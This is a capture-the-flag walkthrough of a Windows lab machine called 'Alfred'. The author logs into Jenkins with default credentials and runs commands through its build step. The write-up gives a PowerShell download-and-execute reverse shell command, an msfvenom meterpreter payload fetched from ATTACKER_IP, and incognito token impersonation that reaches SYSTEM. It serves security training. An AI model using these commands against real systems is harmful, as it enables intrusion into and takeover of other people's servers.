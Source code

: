 ```yaml
---
title: "Alfred"
tags:
  - Easy
  - Windows
  - nmap
  - Jenkins
  - powershell
  - msfvenom
  - meterpreter
  - Token Impersonation
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  | 10.10.113.167 |  |

---

Let's start off with a basic `nmap` scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the `-Pn` tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```

![screenshot1](../assets/images/alfred/screenshot1.png)

From the results, we can see that there are 3 ports currently open: **80 (HTTP)**, **3389** and **8080 (HTTP)**

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:

![screenshot2](../assets/images/alfred/screenshot2.png)

After looking through the website and running a `gobuster` directory scan, I was unable to find anything of interest. 

Let's move on to the web server on port 8080:

![screenshot3](../assets/images/alfred/screenshot3.png)

Nice! We found a login page to a Jenkins server. 

---

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

---

Let's try using a common default username and password to log in:

> admin : admin

![screenshot4](../assets/images/alfred/screenshot4.png)

Luckily for us, those credentials actually worked! We're now logged into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named 'project', then 'Configure' on the left-hand side, then move down to the 'Build' section:

![screenshot5](../assets/images/alfred/screenshot5.png)

In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be `whoami`.

![screenshot6](../assets/images/alfred/screenshot6.png)

Now, we simply click on 'Build Now' on the project page, then click on the corresponding build in the 'Build History' section, then click on 'Console Output' to see the results of our command:

![screenshot7](../assets/images/alfred/screenshot7.png)

We can see from the console output that our `whoami` was successfully run! This proves that we can run arbitrary commands on the server. 

Thus, let's use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a Windows machine, we'll use a Powershell [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) that is part of the [Nishang framework](https://github.com/samratashok/nishang).

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can transfer the script to our target.

Next, we input the following command into the 'Build' section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using `Invoke-PowerShellTcp`.

![screenshot8](../assets/images/alfred/screenshot8.png)

Finally, we make sure to have a netcat listener up and ready to catch the connection.

With everything set up, let's go ahead and build the project!

![screenshot9](../assets/images/alfred/screenshot9.png)

And we're in!

![screenshot10](../assets/images/alfred/screenshot10.png)

**user.txt** is located in the desktop of the user bruce.

---

To make the privilege escalation process easier, let's switch to a Meterpreter shell using `metasploit`.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using `msfvenom`:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```

![screenshot11](../assets/images/alfred/screenshot11.png)

With our payload created, we upload it onto the target machine using the same command as before:

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER_IP:8000/shell.exe','shell.exe')"
```

![screenshot12](../assets/images/alfred/screenshot12.png)

For good measure, I'll also add in a `dir` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine:

![screenshot13](../assets/images/alfred/screenshot13.png)

Now, we just have to execute it using:

```
.\shell.exe
```

![screenshot14](../assets/images/alfred/screenshot14.png)

Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the /multi/handler module:

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With everything set up, let's build the project:

![screenshot15](../assets/images/alfred/screenshot15.png)

We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a meterpreter shell, we can use **token impersonation** to gain system access.

Let's first spawn a shell that we can use. This can be done using the `shell` command in meterpreter.

Next, we use the `whoami /priv` command to view all privileges on this account:

![screenshot16](../assets/images/alfred/screenshot16.png)

As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit these privileges by using the `incognito` module in Metasploit. To load the module, we first exit out of the shell. Then we use the `load incognito` command: 

![screenshot17](../assets/images/alfred/screenshot17.png)

Loading this module gives us more commands that we can run in meterpreter:

![screenshot18](../assets/images/alfred/screenshot18.png)

We will be using the `list_tokens` command:

```
list_tokens -g
```

*(The -g tag lists tokens by unique groupname)*

![screenshot19](../assets/images/alfred/screenshot19.png)

From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the `impersonate_token` command to use this token. This will then allow us to impersonate the root user (NT AUTHORTIY\SYSTEM):

```
impersonate_token "BUILTIN\Administrators"
```

![screenshot20](../assets/images/alfred/screenshot20.png)

With that, we have now impersonated the root user!

However, even though we are currently using a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions: it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct 'NT AUTHORITY\SYSTEM' permissions. According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the PID of the process. We can use the `ps` command:

![screenshot21](../assets/images/alfred/screenshot21.png)

The PID of services.exe is **668**. 

Now let's migrate to the process:

```
migrate 668
```

![screenshot22](../assets/images/alfred/screenshot22.png)

After the migration is complete, we finally have the permissions of 'NT AUTHORITY\SYSTEM'. 

We now spawn a root shell using the `shell` command. We can then read the **root.txt** file located in C:\Windows\System32\config using the `TYPE` command:

![screenshot23](../assets/images/alfred/screenshot23.png)
